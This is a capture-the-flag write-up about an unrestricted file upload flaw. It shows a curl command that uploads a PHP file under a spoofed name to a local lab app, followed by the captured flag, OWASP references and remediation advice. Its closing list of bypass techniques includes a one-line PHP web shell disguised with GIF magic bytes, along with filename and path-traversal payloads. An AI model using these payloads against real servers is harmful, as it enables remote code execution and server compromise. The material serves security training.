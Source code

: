 ## Flag

Create a php file `file.php` add a accepted extension (e.g., `.jpeg`) and upload it via the file upload functionality.

```php
<?php
// file.php
echo "Hello from the uploaded file!";
?>
```

Upload the file to the web application and then access it via the URL:

```bash
curl -s -X POST -F "Upload=Upload" -F "uploaded=@file.php.jpeg;filename=file.php" http://localhost:8080/index.php\?page\=upload | grep flag
# -X POST: Specifies the request method as POST.
# -F "Upload=Upload": Simulates the form submission by including the "Upload" field.
# -F "uploaded=@file.php.jpeg;filename=file.php": Specifies the file to upload, with the correct MIME type and filename.
# @ indicates that the content of the file should be read and sent as the value of the "uploaded" field.
```

```html
<pre><center><h2 style="margin-top:50px;">The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> </pre>
<pre>/tmp/file.php succesfully uploaded.</pre>
```

We know the file was uploaded successfully because we see the message `/tmp/file.php successfully uploaded.`. Meaning the file is now on the server. So others techniques can be used to access and execute the uploaded file.

## Explanation

https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/10-Business_Logic_Testing/09-Test_Upload_of_Malicious_Files
https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload
https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html
https://cwe.mitre.org/data/definitions/98.html

Unrestricted file upload vulnerabilities occur when a web application allows users to upload files without proper validation and sanitization. This can lead to various security issues, including remote code execution, data breaches, and server compromise.
Usually, attackers exploit these vulnerabilities by uploading malicious files, such as web shells or scripts, that can be executed on the server using another vulnerability (e.g., local file inclusion) to execute the uploaded file.

## Remediation

To prevent unrestricted file upload vulnerabilities, consider the following best practices:

1. **File Type Validation**: Implement strict server-side validation to check the file type, not just the extension. Use a whitelist of allowed file types and verify the file's MIME type and magic bytes.
2. **File Size Limits**: Set limits on the size of uploaded files to prevent denial-of-service attacks.
3. **Storage Location**: Store uploaded files outside the web root directory to prevent direct access and execution.
4. **File Name Sanitization**: Sanitize file names to prevent path traversal attacks and avoid overwriting existing files.
5. **Access Controls**: Implement proper access controls to restrict who can upload files and what types of files they can upload.
6. **Regular Updates**: Keep the server and software up to date with the latest security patches.

---

## Common File Upload Vulnerabilities

### 1. **Insufficient File Type Validation**

- **Weakness**: Only checking file extension
- **Bypass Techniques**:
  - Double extensions: `shell.php.jpeg`, `shell.jpeg.php`
  - Case manipulation: `shell.PhP`, `shell.pHp`
  - Null byte injection: `shell.php%00.jpeg` (older PHP versions)
  - Append valid extension: `shell.php.jpg`

### 2. **MIME Type Manipulation**

- **Weakness**: Trusting client-sent Content-Type headers
- **Bypass**: Modify the Content-Type header in the request
  ```
  Content-Type: image/jpeg  (while uploading .php file)
  ```

### 3. **Magic Bytes/File Signature Bypass**

- **Technique**: Add valid image magic bytes at the beginning
  ```php
  GIF89a;
  <?php system($_GET['cmd']); ?>
  ```
- JPEG magic bytes: `FF D8 FF E0`
- PNG magic bytes: `89 50 4E 47`

### 4. **Path Traversal**

- **Goal**: Upload to unintended directories
- **Technique**: Use filenames like:
  - `../../shell.php`
  - `....//....//shell.php`
